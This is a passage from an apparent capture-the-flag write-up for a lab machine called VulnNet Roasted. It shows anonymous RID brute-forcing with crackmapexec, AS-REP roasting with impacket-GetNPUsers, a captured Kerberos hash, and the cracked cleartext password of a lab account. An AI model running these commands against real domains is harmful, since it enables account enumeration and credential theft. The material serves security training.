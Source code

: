 * we can also do this using crackmapexec.

```bash
crackmapexec smb 10.10.254.70 -u anonymous -p "" --rid-brute | tee usernames
```

![](2025-05-31-vulnnet-roasted-6.png)

* next we can simply grep for only usernames from saved output.

```bash
┌──(kali㉿kali)-[~/Desktop/vulnnetroasted]
└─$ cat usernames | grep SidTypeUser  |gawk -F '\' '{ print $2 }' |gawk -F ' ' '{ print $1 }' | tee username
Administrator
Guest
krbtgt
WIN-2BO8M1OE1M1$
enterprise-core-vn
a-whitehat
t-skid
j-goldenhand
j-leet
```

* now that we have a list of valid usernames we can try for AS-REP roasting attack.

```bash
┌──(kali㉿kali)-[~/Desktop/vulnnetroasted]
└─$ impacket-GetNPUsers -dc-ip 10.10.254.70 vulnnet-rst.local/ -usersfile username -request
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User WIN-2BO8M1OE1M1$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User enterprise-core-vn doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:4c5b3bc2731f8d9b47fffb241c337180$658e419172bc761cea3d999e7336afc268e5383de89863a660191cd27eaf96e202e33759b6e5714ef1078e708e25ecf4bdca0c1f404ef7ee89b22a09b6219bda2e139240c494dab9b8212cf56911c7de0d2b368d1df7ef185f2d14d660d9e422778dd520f70fdfa78dd4e69b1536ad7e61611cfa2fc8ecdff4549e9a7e9835e828e3e732f555bb1650a8c11e0487c049a7db050c96b2729340aafba468ebe4f40ff3d129544554daac0f30291a3710e1f18e6045b9af050ba559996e69db654a2e83a19d50ab38aeb5f9c5f07a3beb042d842c0622fa8f51588428a5e454adecba9d086339024f5e8907e4563dc1b22af441d9751a
[-] User j-goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j-leet doesn't have UF_DONT_REQUIRE_PREAUTH set
```

* luckily we got a user who is set for `UF_DONT_REQUIRE_PREAUTH`.
* saved the hash in a text file and cracked it using john.

![](2025-05-31-vulnnet-roasted-7.png)

* got the full creds as - `t-skid:tj072889*`

## Exploitation
